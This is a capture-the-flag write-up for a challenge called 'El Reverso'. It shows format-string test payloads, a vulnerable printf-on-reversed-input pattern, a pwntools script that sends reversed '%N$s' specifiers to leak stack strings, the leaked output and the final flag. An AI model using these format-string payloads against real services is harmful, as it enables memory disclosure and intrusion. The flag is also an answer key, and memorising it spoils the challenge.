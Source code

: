 # El Reverso  
**Author:** marv1nh  
**Solves:** 12  

## Overview

We are given a binary file called `translate`, running on a remote server listening on port 1337. The challenge is to exploit this binary and retrieve a flag in the format `DDC{...}`.

---

## Analysis

### Step 1: Initial Recon

I opened the binary in GDB and set a breakpoint at `main()`. I wanted to check for common vulnerabilities, so I tested for format string bugs using the following inputs:

```
%p%p%p%p%n  
%p%p%p%p%p%pAAAA
```

Both inputs were accepted and returned values, indicating the program is vulnerable to **format string attacks**.

---

### Step 2: Understanding the Reversal

Further inspection revealed that the binary was using something equivalent to:

```c
printf(strrev(user_input));
```

This meant that if I provided a format string like `%8$s`, it would be reversed before being passed to `printf`, resulting in `s$8%`, which still gets interpreted correctly. Therefore, the binary still leaks stack content — just in reverse.

---

### Step 3: Flag Location

From the provided Dockerfile:

```dockerfile
CMD socat tcp-l:1337,reuseaddr,fork exec:"./translate DDC{flag_eksempel_flag_eksempel__}",pty,echo=0,raw
```

This shows the flag is passed **as a command-line argument**, and therefore exists somewhere on the stack during program execution.

---

## Exploitation

To find which argument contained the flag, I wrote a script to brute-force and print the **Nth string argument** (in reverse), by sending inputs like `s$1%`, `s$2%`, ..., `s$20%`.

---

### Solve Script

```python
from pwn import *

context.log_level = 'error'

host = 'translate.hkn'
port = 1337

for i in range(1, 21):  # try up to 20 args
    io = remote(host, port)

    # Sync with the prompt
    io.recvuntil(b'> ')
    
    # Send the reversed format string: s$<i>%
    fmt = f's${i}%'
    io.sendline(fmt.encode())
    
    try:
        result = io.recvline(timeout=2).strip()
        if result:
            print(f"[{i}] {result.decode(errors='ignore')}")
    except Exception:
        print(f"[{i}] (timeout or no response)")
    
    io.close()
```

---

### Running the Script

Reversing the output with `rev` reveals the flag clearly:

```bash
┌──(kali㉿kali)-[~]
└─$ python3 flag.py | rev
)esnopser on ro tuoemit( ]1[
s$ ]2[
)esnopser on ro tuoemit( ]3[
c ]4[
" ]5[
 ]6[
)esnopser on ro tuoemit( ]7[
DDC{1_4M_EL_REVER20_1_4M_THE_8E2T} ]8[
DDC{1_4M_EL_REVER20_1_4M_THE_8E2T} ]9[
)esnopser on ro tuoemit( ]01[
)llun( ]11[
)llun( ]21[
)llun( ]31[
)llun( ]41[
)esnopser on ro tuoemit( ]51[
)llun( ]61[
LTPHH^I1 ]71[
)llun( ]81[
4.3.24.01=RDDAREEP_TACOS ]91[
s$ ]02[

...
```

Flag

```
DDC{1_4M_EL_REVER20_1_4M_THE_8E2T}
```

---

## Conclusion

By identifying and exploiting a format string vulnerability in a binary that reverses user input, I was able to leak the flag passed as a command-line argument. Brute-forcing `n` in `%n$s` format specifiers allowed me to print and reverse the flag successfully.

**Final Flag:**  
`DDC{1_4M_EL_REVER20_1_4M_THE_8E2T}`
